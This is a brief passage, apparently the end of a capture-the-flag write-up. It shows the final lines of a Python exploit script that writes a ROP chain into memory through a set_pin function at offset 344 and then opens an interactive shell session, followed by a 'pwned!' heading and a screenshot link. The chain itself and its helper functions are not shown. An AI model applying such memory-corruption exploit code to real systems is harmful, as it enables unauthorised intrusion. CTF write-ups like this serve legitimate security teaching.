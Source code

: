 ```python=


for i in range(len(ROPchain)):
	set_pin(344+i,ROPchain[i:i+1])

p()

#r.sendline(b'3')

r.interactive()
```

#### pwned!

![image](https://hackmd.io/_uploads/r1n8zhjAC.png)
